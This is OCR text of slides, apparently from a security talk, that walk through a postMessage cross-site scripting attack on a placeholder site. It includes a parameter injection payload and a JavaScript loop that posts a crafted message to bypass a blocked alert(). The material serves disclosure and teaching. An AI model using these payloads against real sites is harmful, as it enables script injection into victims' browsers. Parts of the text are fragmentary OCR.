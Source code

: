  Author name her 

##### Loaded JS, osl vuln param 

 Frans Rosén @fransrosen 

 ...&curr=&osl='-alert(1)-' 

---

 Author name her 

##### alert was blocked. yawn... 

 Frans Rosén @fransrosen 

---

 Author name her 

##### alert was blocked. yawn... easy fix 

 Frans Rosén @fransrosen 

---

 Author name her 

##### Attacker-site 

 Frans Rosén @fransrosen 

**link.com.example.com** 

---

 Author name her 

##### Attacker site opens victim site 

 Frans Rosén @fransrosen 

 link.com.example.com 	Loading...							 

---

 setInterval( function ()	{	 if (b)	b.postMessage('{"sitelist":"www.example.com/ global","siteurl":"www.example.com/uk","curr":"curr=&osl=\'-(function() {document.body.appendChild(iframe=document.createElement(\'iframe\'));window .alert=iframe.contentWindow[\'alert\'];document.body.removeChild(iframe);win dow.alert(document.domain)})()-\'"}','*')	 				},	 10 ); 

 Author name her 

##### Loaded JS 

 Frans Rosén @fransrosen 

 link.com.example.com 	Loading...							 

---
